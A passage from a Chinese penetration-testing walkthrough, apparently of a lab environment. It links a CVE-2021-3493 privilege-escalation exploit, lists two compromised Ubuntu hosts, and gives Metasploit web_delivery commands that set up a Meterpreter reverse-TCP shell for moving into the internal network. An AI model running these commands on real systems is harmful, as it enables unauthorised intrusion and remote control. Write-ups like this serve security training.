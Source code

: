 ![截图](44b0bac13df1f65ee6f2ca2b20965f58.png)

Exp：https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c

成功提权，那么接下来该将这两台机器上线MSF继续进攻内网了

# 内网渗透

至此已经拿下两台linux主机 . ubuntu1 和 ubuntu2 整理一下

```
ubuntu1
    ip：192.168.111.133  192.168.52.10

ubuntu2
    ip：192.168.52.20 192.168.93.10
```

先进行上线通过Redis拿到的机器(Web1)

```
msfconsole 
use exploit/multi/script/web_delivery           
set target 7    # 选择目标系统            
set payload linux/x64/meterpreter/reverse_tcp            
set lhost 192.168.111.128           
set lport 2345   
set SRVPORT 8081
run
```

![截图](745b429b7f5378c6c9eb0f8facc854ed.png)
